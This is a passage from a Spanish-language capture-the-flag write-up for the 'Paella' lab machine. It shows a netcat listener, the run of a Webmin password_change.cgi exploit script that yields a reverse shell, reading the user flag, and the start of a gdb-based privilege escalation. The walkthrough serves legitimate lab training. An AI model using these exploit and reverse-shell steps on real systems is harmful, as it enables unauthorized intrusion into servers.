 Abre el listener con **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
```

Ejecuta el Exploit:
```bash
python3 webminExploit.py -url http://192.168.100.72:10000 -ip 192.168.100.250 -p 443
[!] Asegúrate de tener el listener activo con: nc -lvnp 443

[+] El endpoint password_change.cgi está disponible.
[+] Enviando Payload para obtener Reverse Shell
[+] Payload enviado. El servidor no respondió (esto es normal si la shell fue exitosa).
```

Observa la **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.10.50] 43108
bash: cannot set terminal process group (464): Inappropriate ioctl for device
bash: no job control in this shell
paella@TheHackersLabs-Paella:/usr/share/webmin/acl$
```
Ya solo falta que obtengas una sesión interactiva.

No olvides buscar la flag del usuario:
```bash
paella@TheHackersLabs-Paella:/usr/share/webmin/acl$ cd /home/paella/
paella@TheHackersLabs-Paella:~$ ls
user.txt
paella@TheHackersLabs-Paella:~$ cat user.txt
...
```
Continuemos.


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>


<h2 id="GDB">Enumeración de la Máquina Víctima y Escalando Privilegios con Binario gdb</h2>

Como tal, no podemos ver los privilegios que tiene nuestro usuario, porque no tenemos su contraseña:
```bash
paella@TheHackersLabs-Paella:~$ sudo -l
sudo: unable to resolve host TheHackersLabs-Paella: Name or service not known
[sudo] password for paella: 
paella@TheHackersLabs-Paella:~$
```
